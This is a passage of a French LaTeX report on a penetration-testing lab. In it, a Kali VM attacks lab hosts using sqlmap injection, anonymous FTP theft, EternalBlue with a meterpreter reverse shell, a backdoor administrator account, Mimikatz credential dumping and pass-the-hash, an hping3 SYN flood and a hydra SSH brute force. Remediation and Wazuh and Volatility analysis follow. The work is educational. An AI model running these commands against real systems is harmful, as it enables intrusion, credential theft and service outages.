\includegraphics[width=0.8\textwidth]{img/webserver1_sql_nmap_test_php.png} \caption{scan nmap - status ports}
\end{figure}

\item Détection des fichiers accessibles

Par un scan d'URL avec gobuster ou dirb
\begin{lstlisting}
dirb http://192.168.44.101/
\end{lstlisting}

%\begin{figure}[H] 
%\label{web1-dirb-kali}
%    \centering
%\includegraphics[width=0.8\textwidth]{img/webserver1_dirb.png} 
%\caption{détection des pages web}
%\end{figure}

%On voit juste 3 pages!!!! (voir ça)

\item Détection d’un formulaire exploitable
On identifie les champs de \texttt{login.php} 

\begin{lstlisting}
sqlmap -u "http://192.168.44.101/login.php" --forms --batch --level-5 --risk-3
\end{lstlisting}

\begin{figure}[H]
    \centering
    \begin{minipage}{0.5\textwidth}
        \centering
        \includegraphics[width=\textwidth]{img/webserver1_sql_injection_lancemant_attaque.png}
        \caption{détection des formulaires 1}
        \label{fig:web1-login-form-kali}
    \end{minipage}
    \hfill
    \begin{minipage}{0.48\textwidth}
        \centering
        \includegraphics[width=\textwidth]{img/webserver1_db_sql_injection_scan_forms.png}
         \caption{détection des formulaires 2}
        \label{fig:web1-sql-result}
    \end{minipage}
\end{figure}


\item  Extraction des bases de données
On liste les bases disponibles :
\begin{lstlisting}
sqlmap -u "http://192.168.44.101/login.php" --data "username=admin&password=test" --dbs
\end{lstlisting}



\begin{figure}[H] 
\label{web1-dbs-kali}
    \centering

\includegraphics[width=0.8\textwidth]{img/webserver1_sql_injection_dbs.png} 
\caption{détection des bases de données}
\end{figure}

Nous allons explorer infra\_db.

\item Extraction des tables

On liste les tables de \texttt{infra\_db} 

\begin{lstlisting}
sqlmap -u "http://192.168.44.101/login.php" --data "username=admin&password=test" -D infra_db --tables
\end{lstlisting}
\begin{figure}[H] 
\label{web1-tables-kali}
    \centering
\includegraphics[width=0.8\textwidth]{img/webserver1_sql_injection_tables.png} 
\caption{détection des tables de infra\_db}
\end{figure}
On a une tables : users.

\item Extraction des colonnes de la table users
\begin{lstlisting}
sqlmap -u "http://192.168.44.101/login.php" --data "username=admin&password=test" -D infra_db -T users --columns
\end{lstlisting}
\begin{figure}[H] 
\label{web1-colonnes-kali}
    \centering
\includegraphics[width=0.8\textwidth]{img/webserver1_sql_injection_columns.png} 
\caption{détection des colonnes de la table users}
\end{figure}

\item Étape 8 : Récupération des identifiants
\begin{lstlisting}
sqlmap -u "http://192.168.44.101/login.php" --data "username=admin&password=test" -D infra_db -T users -C username,password --dump
\end{lstlisting}
\begin{figure}[H] 
\label{web1-rows-kali}
    \centering

\includegraphics[width=0.8\textwidth]{img/webserver1_sql_injection_rows.png} 
\caption{détection des lignes de la table users}
\end{figure}
\end{enumerate}

\section{Exfiltration de données via FTP sur Webserver2}

L'attaque se fait à partir de la vm Kali (192.168.1.101) sur la vm Webserver2 (192.168.44.102). Au scan avec nmap du sous réseau 192.168.44.0/24, on constate que la machine à l'adresse $192.168.44.102$ a le port $21$ ouvert. 

\begin{figure}[H] 
\label{web2-nmap}
    \centering

\includegraphics[width=0.8\textwidth]{img/webserver2_ftp_attack1.png} 
\caption{Le port 21 est ouvert sur la cible}
\end{figure}

On tente une connexion anonyme (nom d'utilisateur : "anonymous" et pas de mot de passe) c'est à dire que l'on a pas de compte pour voir si la connexion n'est pas réservée à des comptes enregistrés.

\begin{lstlisting}
    ftp 192.168.44.102
\end{lstlisting}

\begin{figure}[H] 
\label{web2-con-anonyme}
    \centering

\includegraphics[width=0.8\textwidth]{img/webserver2_ftp_attack2.png} 
\caption{connexion anonyme possible}
\end{figure}

On essaye de lister les fichiers sur le serveur et on constate qu'il ya le repertoire "secret" et que tous les utilisateurs et groupe d'utilisateurs ont toutes les permissions sur le dit repertoire. Il contient $2$ fichiers. 
\begin{figure}[H] 
\label{web2-con-ls}
    \centering
\includegraphics[width=0.8\textwidth]{img/webserver2_ftp_attack3.png} 
\caption{affichage des répertoires}
\end{figure}

On se déplace dans le répertoire "/secret" et on essaye d’exfiltrer le contenu

\begin{figure}[H] 
\label{web2-con-exfiltration}
    \centering

\includegraphics[width=0.8\textwidth]{img/webserver2_ftp_attack4.png} 
\caption{vol des fichiers}
\end{figure}

On peut alors consulter les fichiers exfiltrés localement 

\begin{figure}[H] 
\label{web2-con-exfiltration2}
    \centering
\includegraphics[width=0.8\textwidth]{img/webserver2_ftp_attack5.png} 
\caption{les fichiers sont présents localement}
\end{figure}
\section{Exploitation de CVE-2017-0144 - EternalBlue sur windows 7}

L'attaque se fait à partir de la vm Kali (192.168.1.101) sur la vm windows 7 (192.168.45.30) dans le sous réseau de Logging (trusted zone). Elle repose sur l'exploitation d'une payload pour obtenir un shell meterpreter sur la cible grâce à Metasploit. 

\begin{lstlisting}
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.45.30
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.101
exploit
\end{lstlisting}

L'on vérifie d'abord que le port SMBv1 est disponible
\begin{figure}[H] 
\label{windows-kali-scan}
    \centering
\includegraphics[width=0.8\textwidth]{img/eternalblue/eternal_blue_scan_nmap_approfondi.png} 
\caption{scan nmap de la cible}
\end{figure}

On se rend compte que le port $445$ est ouvert en tcp. 

Procédons à l'exploitation de la CVE-2017-0144.

\begin{enumerate}
    \item \textbf{recherche du scanner EternalBlue}
   
         Nous commençons par rechercher un module de scanner pour la vulnérabilité MS17-010 (EternalBlue) en utilisant la commande suivante dans Metasploit :
        \begin{lstlisting}
        search scanner eternalblue
        \end{lstlisting}
        
        Cette commande permet de lister les modules de Metasploit relatifs à cette vulnérabilité. Le scanner \texttt{auxiliary/scanner/smb/smb\_ms17\_010} a été trouvé et est utilisé pour vérifier si la machine cible est vulnérable.
        

    \begin{figure}[H] 
      \label{windows-kali-search-exploit}
        \centering
          \includegraphics[width=0.9\textwidth]{img/eternalblue/eternal_blue_5_search_exploit_result.png} 
        \caption{recherche de l'exploit}
    \end{figure}

    \item \textbf{Lancer le scanner MS17-010}
    
     On sélectionne le module de scanner pour tester la vulnérabilité sur la machine cible. La commande suivante a été utilisée pour sélectionner ce module :
        \begin{lstlisting}
        msf6 > use auxiliary/scanner/smb/smb_ms17_010
        \end{lstlisting}
        
         Puis, nous avons configuré l'adresse de la cible avec la commande :
        \begin{lstlisting}
        msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 192.168.45.30
        \end{lstlisting}
        
         Enfin, on exécute le scanner pour vérifier si la machine cible est vulnérable :
        \begin{lstlisting}
        msf6 auxiliary(scanner/smb/smb_ms17_010) > run
        \end{lstlisting}
      
      Le scanner a indiqué que la machine est vulnérable à MS17-010 (Windows 7 Enterprise 7601 Service Pack 1 x64).
        
        
    \item \textbf{Recherche de l'exploit EternalBlue}
    
    Une fois la vulnérabilité confirmée, nous avons cherché un exploit correspondant. La commande suivante a été utilisée :
        \begin{lstlisting}
        msf6 > search exploit eternalblue
        \end{lstlisting}
        Le module d'exploitation \texttt{exploit/windows/smb/ms17\_010\_eternalblue} a été trouvé.
       
    
    \item \textbf{Configurer l'exploit EternalBlue}
    
        Nous avons sélectionné le module d'exploitation pour MS17-010. La commande utilisée est :
        \begin{lstlisting}
        msf6 > use exploit/windows/smb/ms17_010_eternalblue
        \end{lstlisting}
        
         Nous avons ensuite configuré l'adresse de l'attaquant (Kali Linux) avec la commande suivante :
        \begin{lstlisting}
        msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 192.168.1.101
        \end{lstlisting}
        
         Le payload par défaut est \texttt{windows/x64/meterpreter/reverse\_tcp}, qui a été confirmé comme étant correct.
      
    
    \item \textbf{Lancement de l'exploitation}
     Nous avons lancé l'exploitation avec la commande :
        \begin{lstlisting}
        msf6 exploit(windows/smb/ms17_010_eternalblue) > run
        \end{lstlisting}
         Cette commande a exploité la vulnérabilité EternalBlue et a ouvert une session Meterpreter avec la machine cible.
        
        Les messages affichés par Metasploit pendant l'exploitation :
        \begin{quote}
         Started reverse TCP handler on 192.168.1.101:4444 \\
        192.168.45.30:445 - The target is vulnerable. \\
         192.168.45.30:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)! \\
         Meterpreter session 1 opened (192.168.1.101:4444 $\rightarrow$ 192.168.45.30:49217)
        \end{quote}
         La session Meterpreter a été ouverte avec succès.
     
    
    \item \textbf{Vérification de l'accès avec Meterpreter}
    
    Une fois la session Meterpreter ouverte, nous avons vérifié les informations système de la machine cible avec la commande :
        \begin{lstlisting}
        meterpreter > sysinfo
        \end{lstlisting}
     Cela a retourné les informations suivantes :
       
        \begin{figure}[H] 
      \label{windows-kali-info-cible}
        \centering
          \includegraphics[width=1\textwidth]{img/eternalblue/eternal_blue_win_infos.png} 
        \caption{récupération des informations sur la cible}
    \end{figure}
       
    
    \item \textbf{Extraction des identifiants avec la commande hashdump}
    
     Nous avons ensuite extrait les hachages des mots de passe des utilisateurs avec la commande suivante :
        \begin{lstlisting}
        meterpreter > hashdump
        \end{lstlisting}
       ça a  retourné les informations sur les comptes utilisateurs, y compris les empreintes des mots de passe. Nous allons les récupérer plus tard avec hashmap ou John the rippers.
        
  \begin{figure}[H] 
      \label{windows-kali-search-exploit}
        \centering
          \includegraphics[width=1\textwidth]{img/eternalblue/eternal_blue_exploit_win.png} 
        \caption{obtention de la session meterpreter : succès!}
    \end{figure}
\end{enumerate}


\subsection{Escalade de privilèges et mouvements latéraux}
Il nous reste deux tâches. 
\begin{itemize}
    \item Pass-the-Hash : nous allons exploiter les identifiants volés
    \item Accès RDP : pour activer le Bureau à Distance (RDP) sur le système compromis. En effet,
    l'on a constaté lors du scan des ports de la victimes que le port 3389 (RDP) était également ouvert \ref{windows-kali-scan}. 
\end{itemize}

L'attaquant récupère le numéro de session active 
 \begin{figure}[H] 
      \label{windows-rdp-session}
        \centering
          \includegraphics[width=1\textwidth]{img/eternalblue/eternal_blue_rdp_1.png} 
        \caption{obtention de l'id de session : 4}
    \end{figure}


On charge le module  pour activer RDP

\begin{lstlisting}
use post/windows/manage/enable_rdp
\end{lstlisting}
 et on vérifier que RDP est activé

\begin{lstlisting}
shell
\end{lstlisting}
\begin{figure}[H] 
      \label{windows-rdp-enable}
        \centering
          \includegraphics[width=1\textwidth]{img/eternalblue/eternal_blue_rdp_3.png} 
        \caption{enable RDP sur la session  4}
    \end{figure}


On exécuter le module
\begin{lstlisting}
run
\end{lstlisting}

\begin{figure}[H] 
      \label{windows-rdp-execution}
        \centering
          \includegraphics[width=1\textwidth]{img/eternalblue/eternal_blue_rdp_4.png} 
        \caption{exécution du module sur la session  4}
    \end{figure}




On peut vérifier sur la cible que RDP est activé

\begin{figure}[H] 
      \label{windows-rdp-activé}
        \centering
          \includegraphics[width=1\textwidth]{img/eternalblue/eternal_blue_rdp_5.png} 
        \caption{la valeur est $0x0$ : RDP est activé}
    \end{figure}



On se connecte sur la cible finalement.
\begin{figure}[H] 
      \label{windows-rdp-shell}
        \centering
          \includegraphics[width=1\textwidth]{img/eternalblue/eternal_blue_rdp_6.png} 
        \caption{exécution du module sur la session  4}
    \end{figure}

On crée un nouvel utilisateur avec un mot de passe, l'ajoute au groupe Administrators et vérifie.

\begin{lstlisting}
net user attacker ******* /add
net localgroup Administrators attacker /add
net localgroup Administrators

\end{lstlisting}

\begin{figure}[H] 
      \label{windows-rdp-user}
        \centering
          \includegraphics[width=1\textwidth]{img/eternalblue/eternal_blue_rdp_7.png} 
        \caption{création de l'utilisateur attacker}
    \end{figure}

On voit bien l'attaquant "attacker".
    
    Finalement, on se connecte via RDP depuis Kali Linux 
\begin{lstlisting}
xfreerdp /u:attacker /p:Pass1234 /v:192.168.45.30 /sec:rdp
\end{lstlisting}

\begin{figure}[H] 
      \label{windows-rdp-user}
        \centering
          
\includegraphics[width=1\textwidth]{img/eternalblue/eternal_blue_rdp_8.png} 
        \caption{création de l'utilisateur attacker}
    \end{figure}

La session sur meterpreter est toujours en cours d'où le message sur la Figure\ref{windows-rdp-user}.

\begin{figure}[H] 
      \label{windows-rdp-user-graphiqe}
        \centering
          \includegraphics[width=1\textwidth]{img/eternalblue/eternal_blue_new_user.png} 
        \caption{l'utilisateur attacker}
    \end{figure}

\subsection{Conclusions et recommandations}
\paragraph{Vulnérabilités identifiées}
\begin{itemize}
    \item Présence de SMBv1 activé
    \item Accès RDP non sécurisé
    \item Mots de passe faibles
\end{itemize}

\paragraph{Correctifs et durcissement du système}
\begin{itemize}
    \item Désactiver SMBv1 :
    \begin{lstlisting}
    reg add "HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" /v SMB1 /t REG_DWORD /d 0 /f
    \end{lstlisting}
    \item Restreindre l’accès RDP aux administrateurs connus
    \item Mettre en place un monitoring actif avec Wazuh
\end{itemize}

\section{Exploitation de CVE-2021-34527 - PrintNightmare sur windows 7}

La vulnérabilité exploitée ici est le service Remote Desktop Protocol (RDP) avec une mauvaise configuration des permissions que nous avons déjà exploitée plus haut.  La ménace est l’exécution de code à distance sans authentification, donnant ainsi un accès complet au système. PrintNightmare affecte le service Spooler d'impression et permet d'exécuter du code à distance avec les privilèges SYSTEM.

L'attaquant - vm kali 192.168.1.101 - a déjà exploité le service RDP dans un exploit précédent et décider de continier à profiter de la faille pour exécuter un code à distance.

\begin{enumerate}
\item \textbf{récupération du shell après connexion à la session meterpreter}

\begin{lstlisting}
 shell
\end{lstlisting}
\begin{figure}[H] 
      \label{mimikatz-1}
        \centering
          \includegraphics[width=1\textwidth]{img/mimikatz/cve_2021_1.png} 
        \caption{Obtention de la session meterpreter}
    \end{figure}


\item \textbf{Test vérification de la vulnérabilité}
Dans le shell windows, on vérifie que la vulnérabilité est bien présente c'est le cas e service Spooler est actif, il s'affiche comme \textbf{Running}.
\begin{lstlisting}
powershell_execute 'Get-Service -Name Spooler'
\end{lstlisting}

\begin{figure}[H] 
      \label{mimikatz-2}
        \centering
          \includegraphics[width=1\textwidth]{img/mimikatz/cve_2021_2_test.png} 
        \caption{l'utilisateur attacker}
    \end{figure}

\item \textbf{Connexion RDP et exécution de commandes}
Maintenant que nous avons un accès SYSTEM et un PowerShell administrateur, nous téléchargeons, exécutons  et exploitons Mimikatz pour extraire les identifiants de connexion. L'attaquant télecharge et transfère sur la cible. 


\begin{lstlisting}
    wget https://github.com/gentilkiwi/mimikatz/releases/latest/download/mimikatz_trunk.zip
python3 -m http.server 8080
\end{lstlisting}


\begin{figure}[H] 
      \label{mimikatz-3}
        \centering
          \includegraphics[width=1\textwidth]{img/mimikatz/cve_2021_3_telechargement_payload_kali.png} 
        \caption{l'utilisateur attacker}
    \end{figure}

\item \textbf{Transfert et exécution de Mimikatz sur la cible}

\begin{lstlisting}
# Sur Kali


# Sur Windows
powershell -ExecutionPolicy Bypass -NoProfile -Command "Invoke-WebRequest -Uri 'http://192.168.1.101:8080/mimikatz_trunk.zip' -OutFile 'C:\Windows\Temp\mimikatz.zip'"

# decompression
powershell -ExecutionPolicy Bypass -NoProfile -Command "Expand-Archive -Path 'C:\Windows\Temp\mimikatz.zip' -DestinationPath 'C:\Windows\Temp\mimikatz'"

# execution de mimikatz
powershell -ExecutionPolicy Bypass -NoProfile -Command "C:\Windows\Temp\mimikatz\x64\mimikatz.exe"

\end{lstlisting}


\begin{figure}[H] 
      \label{mimikatz-4}
        \centering
          \includegraphics[width=1\textwidth]{img/mimikatz/cve_2021_4_telechargement_windows.png} 
        \caption{Téléchargement du programme mimikatz }
    \end{figure}



\begin{figure}[H] 
      \label{mimikatz-6}
        \centering
          \includegraphics[width=1\textwidth]{img/mimikatz/cve_2021_lancement mimikatz.png.png} 
        \caption{exécution du programme mimikatz}
    \end{figure}

\item \textbf{Extraction des mots de passe avec Mimikatz}

\begin{lstlisting}
mimikatz # sekurlsa::logonpasswords
mimikatz # lsadump::sam
mimikatz # sekurlsa::pth /user:Administrator /domain:Client /ntlm:e02bc503339d51f71d913c245d35b50b
\end{lstlisting}

    
\begin{figure}[H] 
      \label{mimikatz-8}
        \centering
          \includegraphics[width=1\textwidth]{img/mimikatz/cve_2021_8_options_mimikatz.png} 
        \caption{les options}
    \end{figure}

\end{enumerate}

\begin{figure}[H] 
      \label{mimikatz-9}
        \centering
          \includegraphics[width=1\textwidth]{img/mimikatz/cve_2021_9.png} 
        \caption{récupération des comptes}
    \end{figure}

    \begin{figure}[H] 
      \label{mimikatz-9-1}
        \centering
          \includegraphics[width=1\textwidth]{img/mimikatz/cve_2021_9_1.png} 
        \caption{récupération des comptes-2}
    \end{figure}

    \begin{figure}[H] 
      \label{mimikatz-9-2}
        \centering
          \includegraphics[width=1\textwidth]{img/mimikatz/cve_2021_9_2.png} 
        \caption{Affichage des hashs de mots de passe}
    \end{figure}

      \begin{figure}[H] 
      \label{mimikatz-9-3}
        \centering
          \includegraphics[width=1\textwidth]{img/mimikatz/cve_2021_9_3.png} 
        \caption{Informations sur la sessions de connexion}
    \end{figure}

%\end{enumerate}


\section{Attaque DoS sur un Reverse Proxy}

Nous allons clore notre scenario avec une attaque par Déni de Service (DoS) pour submerger le Reverse Proxy de l'infrastructure en envoyant un flux massif de paquets TCP SYN afin de rendre indisponible les serveurs web (Webserver1 et Webserver2) qui dépendent de lui. L'attaquant (kali) utilise \textbf{hping3} pour submerger la vm Reverse - 192.168.43.3.

\begin{enumerate}
    \item \textbf{Lancement de l'attaque avec hping3}
    \begin{lstlisting}
    sudo hping3 -c 10000 -d 120 -S -w 64 -p 80 --flood 192.168.43.3
    \end{lstlisting}
    On envoie 10 000 paquets TCP SYN vers le port 80 du Reverse avec un flood mode.
    \begin{figure}[H]
    \begin{center}
        \includegraphics[width=0.9\textwidth]{img/dos_kali.png}
        \caption{Exécution de l'attaque depuis Kali Linux}
    \end{center}
\end{figure}
    \item \textbf{Surveillance des logs du proxy}
    \begin{lstlisting}
    sudo tail -f /var/log/nginx/access.log
    \end{lstlisting}
    \begin{figure}[H]
    \begin{center}
        \includegraphics[width=0.9\textwidth]{img/reverse_logs.png}
        \caption{Logs du reverse proxy pendant l'attaque}
    \end{center}
\end{figure}
    \item \textbf{Analyse des requêtes reçues}
    Ayant constaté la lenteur du Reverse, 
    \begin{lstlisting}
    sudo grep "192.168.1.101" /var/log/nginx/access.log | wc -l
    \end{lstlisting}
    on compte le nombre de requêtes reçues depuis l'attaquant.

    \begin{figure}[H]
    \begin{center}
        \includegraphics[width=0.9\textwidth]{img/reverse_logs_2.png}
        \caption{Analyse des logs pour détecter l'attaque}
    \end{center}
\end{figure}


    \item \textbf{Surveillance de la charge système}
    \begin{lstlisting}
    top
    \end{lstlisting}

    \begin{figure}[H]
    \begin{center}
        \includegraphics[width=0.9\textwidth]{img/reverse_logs_3.png}
        \caption{Surveillance de la charge CPU et mémoire}
    \end{center}
\end{figure}
    
\end{enumerate}

\chapter{Réponses aux incidents}
Nous avons rencontré un \textbf{Problème} majeur!!

Lors des précédentes simulations d’attaques, allumer plusieurs VM (Kali, cible, firewall et SIEM Wazuh) provoquait un plantage de l’infrastructure locale. Afin de contourner ce problème et pouvoir montrer le fonctionnement de notre SIEM et son efficacité, deux attaques ont été lancée depuis la machine hébergeant Wazuh, pour limiter le nombre de VM actives simultanément. Il s'agit d'un brute force SSH et d'une tentive d'intrusion sur la BD du webserver1.  Je le rappelle, ce n'est pas vraiment une solution. Nous allons donc dans les trois prochaines sections de ce chapitre nous focaliser sur l'analyse des logs observés par wazuh sur Webserver1 lors de ce brute force SSH, avant de revenir aux patchs des vulnérabilités sur les machines de l'infrastructure. 

 \paragraph{Lancement d'une attaque par force brute sur SSH} 
 
\begin{lstlisting}
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://192.168.44.101 -t 4
\end{lstlisting}


\paragraph{Surveillance des logs sur Webserver1}

Nous avons ensuite consulté les logs d'authentification en temps réel pour observer l'impact de l'attaque.

\begin{lstlisting}
sudo tail -f /var/log/auth.log
\end{lstlisting}

\begin{figure}[H]
\centering
\includegraphics[width=0.9\textwidth]{img/web1_ssh_1.png}
\caption{Logs Webserver1 détection du brute force SSH }
\end{figure}


\begin{figure}[H]
\centering
\includegraphics[width=0.9\textwidth]{img/web1_ssh_2.png}
\caption{Logs SSH montrant les tentatives d'authentification échouées}
\end{figure}

Les logs montrent plusieurs échecs de connexion depuis l'adresse IP 192.168.45.20.

\section{Analyse du dump de Webserver2}

Nous avons effectuer un dump de mémoire de la vm Webserver2 à partir de virtual box et nous allons essayer dans cette section de l'analyser et de retrouver des traces d'une intrusion. 
\begin{enumerate}
    \item{Informations générales du système}

    On extrait les bannières du noyau Linux :
    \begin{verbatim}
    ./vol.py -f dump_web2.vmem banners.Banners
    \end{verbatim}
    \begin{figure}[h]
        \centering
        \includegraphics[width=0.9\textwidth]{img/vol_banners.png}
        \caption{Version du noyau Linux et informations système}
    \end{figure}
Le serveur tourne sous Debian avec un noyau Linux 6.1.0-31-amd64 et Linux 6.1.0-25-amd64, compilé avec GCC 12. La version du compilateur est GNU Binutils pour Debian 2.40.
On note la présence de multiples instances de noyau. Cela pourrait indiquer un système qui a été mis à jour récemment ou plusieurs noyaux actifs.

\item{Processus en cours d’exécution}

    Voici la liste des processus actifs :
    \begin{verbatim}
    ./vol.py -f dump_web2.vmem linux.pslist.PsList
    ./vol.py -f dump_web2.vmem linux.psaux.PsAux
    \end{verbatim}
    \begin{figure}[H]
        \centering
        \includegraphics[width=0.9\textwidth]{img/vol_psaux.png}
        \caption{Processus en cours d'exécution}
    \end{figure}
